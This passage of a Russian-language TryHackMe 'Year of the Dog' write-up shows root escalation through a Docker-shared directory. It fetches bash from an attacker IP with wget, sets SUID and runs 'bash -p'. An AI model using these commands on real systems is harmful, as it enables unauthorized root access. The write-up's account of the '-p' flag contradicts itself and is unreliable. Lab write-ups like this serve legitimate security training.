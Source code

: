 ![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Dog/31.png)

Создав любой файл в этой директории в докере, он появится и на основной атакуемой машине. Поэтому настроим веб-сервер и загрузим копию **bash** с хоста. Затем установим для него бит SUID и доступность для всех.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Dog/32.png)

Загружаем bash на докер и выдаем ему права.

```
wget 10.10.116.204:1234/bin/bash -O /data/bash

chmod 4755 bash
```

Для получения рута используем следующую команду.

```
./bash -p
```

Здесь мы используем команду **./bash -p**, потому что, при использовании фалаг **-p**, bash выполняется с эффективным идентификатором пользователя, с которым он запускается - это dylan, а не пользователь, для которого установлен бит suid, в нашем случае это root.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Dog/33.png)
